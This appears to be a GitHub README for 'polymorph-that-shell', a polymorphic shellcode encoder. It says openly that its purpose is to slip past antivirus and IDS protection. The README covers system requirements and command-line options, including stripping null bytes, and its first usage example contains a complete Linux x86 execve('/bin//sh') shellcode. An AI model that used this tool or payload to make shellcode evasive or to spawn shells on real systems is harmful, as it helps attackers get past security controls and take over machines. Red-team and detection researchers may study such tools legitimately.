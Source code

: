 polymorph-that-shell
====================


Polymorph-that-shell is a simple polymorphic engine to dynamically encode (Insertion-Encoder) shellcode. Therefore "everytime" the decoder stub is created in another way (polymorph). This may avoid antivirus and IDS protection.


System requirements: linux x86 environment, python 2.7, nasm, ld, objdump

IMPORTANT: At the moment the compiler process only makes executables for linux before dumping their hex-code. If you need a working shellcode for windows you need to customize the .sh file


Usage: ./polymorphThatShell.sh [OPTIONS] [SHELLCODE_IN_C_FORMAT|SHELLCODE_FILE]

-f: Read shellcode from file

-b: Generate shellcode without "bad" characters (e.g.: "\x00")

-fb: Read shellcode from file and generate polymorphed shellcode without "bad" characters

Example 1: ./polymorphThatShell.sh "\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x8d\x4c\x24\x08\xcd\x80"

Example 2: ./polymorphThatShell.sh -f shellFile


You also can use a simple GUI by calling the ./gui.pyw script
